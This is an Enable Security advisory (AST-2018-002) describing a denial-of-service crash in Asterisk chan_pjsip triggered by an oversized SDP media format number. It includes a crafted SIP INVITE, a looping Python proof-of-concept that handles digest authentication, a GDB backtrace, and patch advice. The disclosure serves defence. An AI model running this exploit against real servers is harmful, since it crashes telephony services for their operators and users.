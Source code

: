# Segmentation fault occurs in Asterisk with an invalid SDP media format description

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-002
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-03-asterisk-pjsip-sdp-invalid-media-format-description-segfault>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-002.html>
- Tested vulnerable versions: 13.10.0, 15.1.3, 15.1.4, 15.1.5, 15.2.0
- Timeline:
    - Report date: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22

## Description

A specially crafted SDP message body with an invalid media format description causes a segmentation fault in asterisk using `chan_pjsip`.

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when `chan_pjsip` is in use.

## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: 5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 115

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.2
m=audio 17002 RTP/AVP 4294967296
```


The problematic SDP section is:

```
m=audio 17000 RTP/AVP 4294967296
```


Notes: 

- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

while True:
    callid = str(uuid.uuid4())

    fmt = 4294967296

    sdpbody = "v=0\r\n" \
        "o=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
        "s=Asterisk\r\n" \
        "c=IN IP4 172.17.0.2\r\n" \
        "m=audio 17002 RTP/AVP %s" % fmt

    msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
        "To: <sip:%s@%s:%i>\r\n" \
        "From: Test <sip:%s@%s:%s>\r\n" \
        "Call-ID: %s\r\n" \
        "CSeq: 2 INVITE\r\n" \
        "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
        "Contact: <sip:%s@172.17.0.1>\r\n" \
        "Content-Type: application/sdp\r\n" \
        "{{AUTH}}" \
        "Content-Length: %i\r\n" \
        "\r\n" % (
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            USERNAME, SERVER_IP, SERVER_PORT,
            callid, callid,
            USERNAME, len(sdpbody)
            ) + \
        sdpbody

    sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

    data, addr = sock.recvfrom(10240)

    if data.startswith("SIP/2.0 401"):
        for line in data.split('\r\n'):
            if line.startswith("WWW-Authenticate"):
                content = line.split(':', 2)[1].strip()
                realm = re.search("realm=\"([a-z]+)\"", content).group(1)
                nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
                ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
                uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
                ha2 = md5.new("INVITE:" + uri).hexdigest()
                r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

                auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                    "realm=\"%s\"," % (realm) + \
                    "nonce=\"%s\"," % (nonce) + \
                    "uri=\"%s\"," % (uri) + \
                    "response=\"%s\"," % (r) + \
                    "algorithm=md5\r\n"

    sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

The loop is required since a crash might not occur immediately.

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
gdb --args /opt/asterisk/sbin/asterisk -fcvvv

[Jan  2 16:07:36] DEBUG[45]: res_pjsip_session.c:743 handle_negotiated_sdp_session_media: Applied negotiated SDP media stream 'audio' using audio SDP handler
[Jan  2 16:07:36] ERROR[45]: pjproject:0 <?>: 	              except.c .!!!FATAL: unhandled exception PJLIB/No memory!


Thread 26 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff0297700 (LWP 45)]
__longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
32	../setjmp/longjmp.c: No such file or directory.
(gdb) bt
#0  __longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
#1  0x00007ffff78ed4ae in pj_throw_exception_ (exception_id=1) at ../src/pj/except.c:54
#2  0x00007ffff7868070 in pool_callback (pool=<optimized out>, size=<optimized out>) at ../src/pjsip/sip_endpoint.c:143
#3  0x00007ffff78f1a93 in pj_pool_create_block (size=1407375809856000, pool=0x7fff8c002c90) at ../src/pj/pool.c:63
#4  pj_pool_allocate_find (pool=0x7fff8c002c90, size=1407375809852724) at ../src/pj/pool.c:138
#5  0x00007ffff78fbb75 in pj_strdup (pool=pool@entry=0x7fff8c002c90, dst=dst@entry=0x7fff8c027638, src=src@entry=0x7fff8c025638) at ../include/pj/string_i.h:41
#6  0x00007ffff78b287e in pjmedia_sdp_media_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c025608) at ../src/pjmedia/sdp.c:691
#7  0x00007ffff78b4069 in pjmedia_sdp_session_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c01cdb8) at ../src/pjmedia/sdp.c:1422
#8  0x00007ffff7847f31 in create_sdp_body (c_sdp=<optimized out>, pool=0x7fff8c002c90) at ../src/pjsip-ua/sip_inv.c:1722
#9  process_answer (inv=inv@entry=0x7fff8c009f28, st_code=st_code@entry=200, local_sdp=local_sdp@entry=0x0, tdata=0x7fff8c002d38, tdata=0x7fff8c002d38) at ../src/pjsip-ua/sip_inv.c:2257
#10 0x00007ffff7848681 in pjsip_inv_answer (inv=0x7fff8c009f28, st_code=st_code@entry=200, st_text=st_text@entry=0x0, local_sdp=local_sdp@entry=0x0, p_tdata=p_tdata@entry=0x7ffff0296d10) at ../src/pjsip-ua/sip_inv.c:2393
#11 0x00007fff6b0f8f77 in answer (data=0x7fff8c00b298) at chan_pjsip.c:660
#12 0x00007ffff17cb180 in sync_task (data=0x7ffff290c510) at res_pjsip.c:4270
#13 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dd6298) at taskprocessor.c:963
#14 0x0000000000602610 in execute_tasks (data=0x1dd6298) at threadpool.c:1322
#15 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a401b8) at taskprocessor.c:963
#16 0x0000000000602af0 in threadpool_execute (pool=0x1ae0e88) at threadpool.c:351
#17 worker_active (worker=0x7fff94000948) at threadpool.c:1105
#18 worker_start (arg=arg@entry=0x7fff94000948) at threadpool.c:1024
#19 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#20 0x00007ffff5e3d6ba in start_thread (arg=0x7ffff0297700) at pthread_create.c:333
#21 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb) 
```

## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
